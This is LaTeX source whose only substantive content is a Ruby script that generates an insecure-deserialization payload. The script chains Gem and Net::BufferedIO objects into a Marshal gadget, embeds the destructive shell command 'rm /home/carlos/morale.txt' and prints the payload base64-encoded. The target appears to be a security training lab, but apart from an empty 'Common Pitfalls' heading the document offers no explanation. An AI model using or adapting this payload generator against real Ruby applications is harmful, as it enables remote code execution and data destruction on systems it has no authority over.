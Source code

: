 \documentclass[11pt]{article}
\begin{document}
\subsection{Ruby Marshal Payload Generator}
\begin{lstlisting}[style=code]
require 'base64'
require 'net/buffered_io'
require 'gem/package/tar_reader'

# Construct gadget chain
i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")

n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', "rm /home/carlos/morale.txt")

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
\end{lstlisting}

\section{Common Pitfalls \& How to Avoid Them}
\end{document}
